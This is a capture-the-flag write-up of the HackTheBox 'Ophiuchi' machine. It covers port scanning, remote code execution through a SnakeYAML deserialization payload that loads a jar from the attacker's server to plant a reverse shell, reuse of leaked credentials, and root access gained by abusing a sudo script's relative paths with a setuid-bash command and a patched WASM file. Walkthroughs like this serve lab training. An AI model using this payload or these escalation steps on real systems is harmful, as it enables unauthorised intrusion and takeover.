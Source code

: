 ```yaml
---
layout: post
title: Opiuchi Box Write-up
author: arimaqz
categories: [Writeup, HTB]
tags: [snakeyaml-deserilization]
---
```

This is a writeup of opiuchi box hosted on HackTheBox.

![achivement](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/achievement.webp)

## Information gathering
the first phase is information gathering and we don’t really have that in hackthebox but we do know that the machine is a linux machine and the IP is `10.10.10.227`.

## Enumeration
i started the process with nmap: `nmap -T5 -A -p- 10.10.10.227`

the result was:
![nmap result   ](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/nmap-result.webp)

there are 2 open ports: SSH and HTTP. i know i can’t get a shell with SSH alone so i checked the HTTP server:
![nmap result   ](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/http-page.webp)

a yaml parser! so i checked for potential vulnerabilities and came across [this medium article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) and [this github repository.](https://github.com/artsploit/yaml-payload).

basically we can pass a java constructor into yaml parser and make it send a request to our server for a file, which will have a reverse shell in it!

## Exploitation
i fired up a python server:

![python sserver](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/python-server.webp)

then i tested this vulnerability:

![testing vulnerability](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/testing%20vulnerability.webp)

and i saw that it made a request to us, then i followed the github repository’s steps to make it upload and run my reverse shell on the machine, and so i cloned the repository and edited the java file:

![edited java file](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/edited-java-file.webp)

this will make the machine download the reverse shell file and then execute it, resulting in a shell for us. i then followed the steps to make it a jar file. after that i made the yaml parser send a request to that file and started a netcat listener:

```
!!javax.script.ScriptEngineManager [
 !!java.net.URLClassLoader [[
 !!java.net.URL [“http://10.10.xx.xx:8000/snakeyaml/yaml-payload.jar"]
 ]]
]
```

## Post Exploitation
now that i got a shell, it’s time to escalate my privileges. i searched through the web server files and found this:

![username and password](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/usernamenpass.webp)

the username and password of the admin. i used that to ssh into the server with admin user and it was a success. there was a user flag file in the home directory too. then i tried to escalate my privileges further, to root! i used `sudo -l` to check whether there is anything i can abuse or not, and there was this:

![sudo -l](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/sudol.webp)

i then tried to run it to see what was going on, but it failed miserably so i `cat` ed the file to see what was written in it:

![script flaws](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/scriptflaws.webp)

there was a flaw in it! it used relative paths and not absolute ones, meaning i could abuse it by running the script from say `tmp` folder and create those files by myself. there were those two files in the same folder as the script too, i copied `main.wasm` to `tmp` and created my own `deploy.sh` and put `chmod +s /bin/bash` in it to make `/bin/bash` executable by my current account as root so that i could get root. but there was another problem and the problem was that the script was using an `if statement` to check whether variable `f` is `1` or not, and it had to be `1` to run perfectly but it wasn’t for some reason. so i copied `main.wasm` to my machine and used `wasm2wat` to check its content:

![wasm file](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/wasm.webp)

function info has a constant variable `i32` that is set to `0`, i tried setting that to `1`:

![edited wasm](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/editedwasm.webp)

then i converted it to wasm again and started a python server and used curl on HTB machine and downloaded the file, then i ran the script again and i could get root:

![getting root](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/gettingroot.webp)

then i got the root flag in `/root` and that was my write-up for Opiuchi box at hackthebox!
